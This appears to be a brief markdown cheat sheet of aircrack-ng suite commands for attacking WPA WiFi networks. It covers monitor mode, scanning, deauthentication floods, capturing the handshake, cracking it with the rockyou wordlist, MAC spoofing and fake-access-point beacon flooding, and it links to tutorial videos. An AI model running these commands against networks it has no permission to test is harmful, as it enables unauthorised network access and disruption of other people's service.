 
### prep interface

```airmon-ng check kill```

```sudo airmon-ng start wlan1```

* now our monitor interface will be wlan1mon

----

### scanning BSSID's near-by

AiroDump ALL in channels 1-165 and ignoring negative one.

```airodump-ng -c 1-165 wlan1mon --ignore-negative-one```


Or to filter and display ONLY the BSSID (MAC Address once known), try the below.

```sudo airodump-ng wlan1mon -d xx:xx:xx:xx:xx:xx```

----

### de-auth BSSID 

```aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan1mon```

----

### Capture to file (4 way handshake)

"<i>-c X</i>". This should be the channel of the BSSID we wish to target after "-c".
-w will output the capture to the filename in this example as "wifi-capture".

```airodump-ng -w wifi-capture -c X --bssid xx:xx:xx:xx:xx:xx wlan1mon```

----

### Cracking the handshake capture

The example below uses the capture file example of "wifi-capture" and the ".cap" file.

This then uses aircrack-ng to process the capture file using the "rockyou.txt" wordlist.

*Note there are other wordlists you could use, but the rockyou wordlist is quite popular and good.

```aircrack-ng wifi-capture.cap -w /usr/share/wordlists/rockyou.txt```

----

### MAC changer (if needed)

```
ifconfig wlan0 down
macchanger -r wlan0
ifconfig wlan0 up
```

See my [mac-changer repo](https://github.com/SystemJargon/mac-changer) for more info.

----

### sporadic-clone-ap

```mdk3 wlan0 b -f ssid_list.txt  -g -a -c 6```

```-c``` being channel, can not specify for mixed results.


----

David Bombal has some videos showing further how this works. Links below.

[Cracking WiFi WPA2 Handshake](https://www.youtube.com/watch?v=WfYxrLaqlN8)

Paul from TallPaulTech (CWNE88) also explains the "4 way handshake" in this [video](https://www.youtube.com/watch?v=vHIRmG_BzQI)
